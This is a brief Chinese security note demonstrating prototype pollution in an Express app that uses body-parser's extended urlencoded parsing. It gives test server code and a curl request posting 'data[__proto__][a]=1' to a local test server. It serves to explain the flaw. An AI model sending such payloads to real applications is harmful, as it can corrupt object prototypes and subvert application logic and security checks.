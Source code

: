 
测试代码如下
```js
const express = require('express');
const path = require('path');
const bodyParser = require('body-parser');

const app = express()
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({
    extended: true
}));

app.post('/test', function(req, res, next){
    res.send(req.body.data);
    let b={}
    console.log(req.body.data.a);
})
app.listen(3333,function(){
    console.log('start test server 3333....');
})
```
发包
```bash
$ curl  http://127.0.0.1:3333/test -X POST -d 'data[__proto__][a]=1'
```
![](./img/1.png)
可以用Object.getPrototypeOf(req.body.data)来具体确认原型上有哪些属性
